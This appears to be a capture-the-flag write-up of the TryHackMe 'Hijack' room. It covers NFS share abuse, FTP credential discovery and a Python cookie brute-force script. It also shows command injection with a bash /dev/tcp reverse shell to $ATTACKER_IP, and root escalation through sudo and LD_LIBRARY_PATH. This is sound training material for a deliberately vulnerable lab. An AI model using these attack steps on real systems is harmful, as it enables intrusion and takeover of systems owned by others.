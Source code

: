 # Hijack Writeup

This is a writeup for the Tryhackme challenge [Hijack](https://tryhackme.com/room/hijack)

## Enumeration

First, nmap as follows:

```sh
nmap --min-rate 4000 -p- 10.10.16.106
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-21 11:56 CEST
Nmap scan report for 10.10.16.106
Host is up (0.063s latency).
Not shown: 65526 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
38490/tcp open  unknown
44511/tcp open  unknown
49338/tcp open  unknown
57526/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 18.56 seconds
```

Since there is an NFS I want to take a look at it.

```sh
showmount -e 10.10.16.106
Export list for 10.10.16.106:
/mnt/share *
```

So, there is a share I can mount in the following way

```sh
mkdir /tmp/nfsfiles
sudo mount -t nfs 10.10.16.106: /tmp/nfsfiles
```

A look at the file permissions tells me, that a user with uid 1003 created the
share. Therefore, a user with the same uid on the local attack machine, where
the share has been mounted, is needed to get permissions to open the directory.

```sh
ls -l nfsfiles/mnt/

drwx------ 2 1003 1003 4096 Aug  8 21:28 share
```

```sh
sudo useradd hijack -u 1003  -m -s /bin/bash
```

Now switch to the user and take a look at the inside of the share.

```sh
sudo su hijack

ls -la nfsfiles/mnt/share/
total 12
drwx------ 2 hijack hijack 4096 Aug  8 21:28 .
drwxr-xr-x 3 root   root   4096 Aug  8 21:28 ..
-rwx------ 1 hijack hijack   46 Aug  8 21:28 for_employees.txt
```

Taking a look at the file provides the following

```sh
cat nfsfiles/mnt/share/for_employees.txt

ftp creds :

ftpuser:XXXXXXXXXXXXXXXXXXXXXXXX
```

Next up, using the credentials on the ftp server

```sh
ftp ftpuser@10.10.16.106
Connected to 10.10.16.106.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||38678|)
150 Here comes the directory listing.
drwxr-xr-x    2 1002     1002         4096 Aug 08 19:28 .
drwxr-xr-x    2 1002     1002         4096 Aug 08 19:28 ..
-rwxr-xr-x    1 1002     1002          220 Aug 08 19:28 .bash_logout
-rwxr-xr-x    1 1002     1002         3771 Aug 08 19:28 .bashrc
-rw-r--r--    1 1002     1002          368 Aug 08 19:28 .from_admin.txt
-rw-r--r--    1 1002     1002         3150 Aug 08 19:28 .passwords_list.txt
-rwxr-xr-x    1 1002     1002          655 Aug 08 19:28 .profile
226 Directory send OK.
```

Two files are `.from_admin.txt` and
`.password_list.txt` are of special interest . The former file contains the following

```
To all employees, this is "admin" speaking,
i came up with a safe list of passwords that you all can use on the site, these passwords don't appear on any wordlist i tested so far, so i encourage you to use them, even me i'm using one of those.

NOTE To rick : good job on limiting login attempts, it works like a charm, this will prevent any future brute forcing.
```

The latter is a list of random passwords the admin seems to have created earlier.

## Exploitation

At first I tried to circumvent the rate limiting, which took a lot of time and
led nowhere in the end. The key is the `PHPSESSID` cookie, it looked a bit
suspicious so I tried to decode it for the user I created on the page.

```base64
d2h4OmE4ZjVmMTY3ZjQ0ZjQ5NjRlNmM5OThkZWU4MjcxMTBj
```

decoded to

```
whx:a8f5f167f44f4964e6c998dee827110c
```

That hash looked a lot like an md5 hash, so I compared it to the password I used

```sh
echo -n "asdasd" | md5sum
a8f5f167f44f4964e6c998dee827110c  -
```

After that I created a Python script to hash & encode the cookie before iterating
the list and in this way I got the correct password.

```python
import hashlib
import base64
import requests

URL = "http://10.10.16.106/administration.php"

with open ("./ftp/passwords_list.txt", 'r') as _f:
    data = [x.strip() for x in _f.readlines()]

r = requests.get(URL)
page_content = r.text
print(r)

for line in data:
    _hash = hashlib.md5(line.encode('utf-8')).hexdigest().encode('utf-8')
    concat_str = b'admin:' + _hash
    _b64hash = base64.b64encode(concat_str).decode()
    print(_b64hash)
    headers = { "Cookie": f"PHPSESSID={_b64hash}"}
    r = requests.get(URL, headers=headers)
    if len(r.text) > len(page_content):
        print("password: " + line)
        print("cookie: " + _b64hash)
        break
```

After login there is a `Service Status Checker` on the administration page. You
can see the status of services/daemons installed on the box of the challenge through
`systemctl status <command>`. My first impression was to just chain commands
through `;` like `ssh
; id`, but that ended in

> Command injection detected, please provide a service.

Most of the commonly used shells have boolean operators like `&&` and `||` as a
condition for the previous exit status code. For example in bash you can check
the status code of the last command that was executed via `echo $?`. That means `&&` is true if the previous command
would return a `0` otherwise `||` is true and the command afterwards will be
executed.
These operators are not blocked by the page, it is possible to chain commands
like this

```sh
sshd && bash -c "bash -i >& /dev/tcp/$ATTACKER_IP/4444 0>&1"
```

Catch the shell via `nc -lvnp 4444` and [upgrade
it](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).

## Privilege Escalation

On the target `config.php` contains credentials for the user rick.

```php
 cat config.php
<?php
$servername = "localhost";
$username = "rick";
$password = "XXXXXXXXXXXXXXXXXXX";
$dbname = "hijack";

// Create connection
$mysqli = new mysqli($servername, $username, $password, $dbname);

// Check connection
if ($mysqli->connect_error) {
  die("Connection failed: " . $mysqli->connect_error);
}
?>
```

So, I switched to the user using `su rick` and got the first flag inside
`/home/rick/user.txt`. One of the first things to check on gained privileges is the current user's
permissions on  the availability of substituting other users, usually using
sudo.

```sh
su rick
Password: 

rick@Hijack:/var/www/html$ sudo -l
[sudo] password for rick: 
Matching Defaults entries for rick on Hijack:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_LIBRARY_PATH

User rick may run the following commands on Hijack:
    (root) /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```

Checking permissions did provide the inability to write on any of the files that are contained in the command that can be run through sudo for user rick. That means,
the next best thing to concentrate on is `env_keep+=LD_LIBRARY_PATH`.
[Hacktricks' page on linux privilege
escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)
contains [a section for
LD_LIBRARY_PATH](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#ld_preload-and-ld_library_path). 
I Compiled the library and preloaded it on the same line as the available sudo
command. Through this method I was able to spawn a root shell.

```sh
rick@Hijack:/tmp$ sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2

root@Hijack:/tmp#
```

The flag can be found inside the root directory

```sh
root@Hijack:/tmp# cat /root/root.txt

██╗░░██╗██╗░░░░░██╗░█████╗░░█████╗░██╗░░██╗
██║░░██║██║░░░░░██║██╔══██╗██╔══██╗██║░██╔╝
███████║██║░░░░░██║███████║██║░░╚═╝█████═╝░
██╔══██║██║██╗░░██║██╔══██║██║░░██╗██╔═██╗░
██║░░██║██║╚█████╔╝██║░░██║╚█████╔╝██║░╚██╗
╚═╝░░╚═╝╚═╝░╚════╝░╚═╝░░╚═╝░╚════╝░╚═╝░░╚═╝

THM{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
```

The box was fun :) Thanks to  0utc4s7 and Happy Hacking!
